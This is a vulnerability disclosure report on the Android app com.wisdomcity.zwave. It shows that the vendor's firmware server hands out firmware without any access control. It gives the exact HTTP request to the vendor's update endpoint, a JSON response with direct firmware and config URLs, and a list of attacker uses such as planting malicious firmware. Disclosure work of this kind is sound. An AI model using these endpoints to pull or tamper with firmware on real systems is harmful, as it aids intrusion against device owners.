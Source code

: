 # Vulnerability Report - com.wisdomcity.zwave- Incorrect Access Control

**Product:** `com.wisdomcity.zwave` 

**Vendor:** [Plug n Play Camera](http://www.starvedia.com/)

**Version:** 1.1.0

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.wisdomcity.zwave` , developed by Plug n Play Camera, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `firmware_link` String value in the `BuildConfig` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003002132246](https://s2.loli.net/2024/10/03/3khIJoPQZfR8nDY.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://www.starvedia.com/AutoUpgrade/Httpversions.json HTTP/1.1
   Host: www.starvedia.com
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 7219
   Accept-Ranges: bytes
   Content-Type: application/json
   Date: Wed, 02 Oct 2024 16:22:06 GMT
   Etag: "1c33-6149fe965e04e"
   Last-Modified: Wed, 27 Mar 2024 08:08:28 GMT
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16
   
   {
   "vendor":"starvidia",
   "products":
   [{
   "model":"IC502wp",
   "version":"030715",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC502wp-cloud-030715-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"3",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_502wp_003.cfg"
   },
   {
   "model":"IC717w",
   "version":"030708",
   "url":"http://www.starvedia.com/AutoUpgrade/Firmware/IC717w-cloud-030708-n.f",
   "md5":"",
   "type":"regular",
   "source":"*",
   "devices":"*",
   "cfgVersion":"2",
   "cfgUrl":"http://www.starvedia.com/AutoUpgrade/Config/gen_717w_002.cfg"
   },
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003002259920](https://s2.loli.net/2024/10/03/rMUdWRfCy8KBqPg.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.